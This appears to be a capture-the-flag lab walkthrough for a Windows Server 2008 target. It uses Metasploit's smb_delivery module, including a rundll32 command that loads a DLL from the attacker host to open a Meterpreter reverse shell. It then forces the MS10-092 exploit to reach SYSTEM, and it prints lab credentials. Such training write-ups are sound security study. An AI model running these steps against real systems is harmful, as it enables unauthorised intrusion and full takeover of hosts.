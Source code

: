 # Windows Server

## 🔍 Objective
Obtain a shell on the target Windows host and escalate privileges to Administrator. Retrieve the contents of flag.txt located on the Administrator Desktop.

## 🖥️ Target Details
RDP Target IP: 10.129.226.66

Hostname: ACADEMY-WINLPE-2K8

Username: htb-student

Password: HTB_@cademy_stdnt!

My Host IP: 10.10.14.45

## 🛠️ Step 1: Start Metasploit Framework
```bash
sudo msfconsole
```
![image](https://github.com/user-attachments/assets/3aeb2ff4-caf4-42ec-bc5e-8088d47ca8e8)

## 🛠️ Step 2: Search and Use SMB Delivery Exploit
```bash
search smb_delivery
use 0
```
![image](https://github.com/user-attachments/assets/083b4311-cc93-4bdf-98b0-c67d0ad142e8)

**Set Required Options**
```bash
set srvhost 10.10.14.45
set lhost 10.10.14.45
set target 0
exploit
```
**Metasploit Output:**
```bash
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 10.10.14.45:4444
[*] Server is running. Listening on 10.10.14.45:445
[*] Run the following command on the target machine:
rundll32.exe \\10.10.14.45\lFTVY\test.dll,0
```
![image](https://github.com/user-attachments/assets/25aae4e5-0d19-47c2-81ee-dfc9e1500c70)

## 💻 Step 3: Execute Payload on Target via RDP
In the RDP session, execute:
```bash
rundll32.exe \\10.10.14.45\lFTVY\test.dll,0
```
## ✅ Step 4: Shell Obtained on Host
You will observe NTLM authentication response and eventually a Meterpreter session:
```bash
[*] Sending stage (177734 bytes) to 10.129.226.66
[*] Meterpreter session 1 opened ...
```
**Check sessions:**
```bash
sessions
```
**Interact with session:**
```bash
sessions -i 1
```
![image](https://github.com/user-attachments/assets/7218198a-bfbb-4b91-9320-12058b0bf3e0)

## 🧠 Step 5: Process Migration
**List processes:**
```bash
ps
```
**Find conhost.exe (or other stable processes) and note PID, then:**
```bash
migrate 2520  # (example PID)
```
**Successful migration message:**
```bash
[*] Migrating from XXXX to 2520...
[*] Migration completed successfully.
```
![image](https://github.com/user-attachments/assets/6c7f8c5f-e8bb-438a-a557-34ea62045d6d)

## 🔍 Step 6: Privilege Escalation - MS10-092
Search for exploit:
```bash
search 2010-3338
use 0
```
![image](https://github.com/user-attachments/assets/91c856af-ec65-4e58-94fe-38dfacff94fb)

**Set Exploit Options:**
```bash
set session 1
set lhost 10.10.14.45
set lport 4443
```
![image](https://github.com/user-attachments/assets/87e1b9ee-d001-4834-981c-1d8228b4d334)

**Show options to confirm:**
```bash
show options
```
**Run Exploit:**
```bash
exploit
```
**Initial result:**
```bash
[-] Exploit aborted due to failure: not-vulnerable...
```
**Force the exploit to run anyway:**
```bash
set ForceExploit true
exploit
```
**You should see:**
`
[*] Creating task...
[*] SUCCESS: The parameters of scheduled task ...
`
![image](https://github.com/user-attachments/assets/6f0b0c2a-1494-429e-ae52-7110e9f41b42)

## 🔐 Step 7: Confirm Privilege Escalation
You will receive a new session or shell as NT AUTHORITY\SYSTEM.

**Check whoami:**
`whoami`

**Expected Output:**
```bash
nt authority\system
```
## 🏁 Step 8: Retrieve the Flag
**Navigate to Administrator desktop:**
```bash
cd C:\Users\Administrator\Desktop
dir
type flag.txt
```
![image](https://github.com/user-attachments/assets/a8f2e06b-8c5a-4b88-b7e0-e1e8ed0d39b5)

## 📝 Summary

| Step                              | Action                          | Status |
|-----------------------------------|----------------------------------|--------|
| 1                                 | RDP Access                       | ✅     |
| 2                                 | SMB Delivery                     | ✅     |
| 3                                 | Shell via DLL                    | ✅     |
| 4                                 | Process Migration                | ✅     |
| 5                                 | Privilege Escalation with MS10-092 | ✅  |
| 6                                 | SYSTEM Access                    | ✅     |
| 7                                 | Flag Retrieved                   | ✅     |

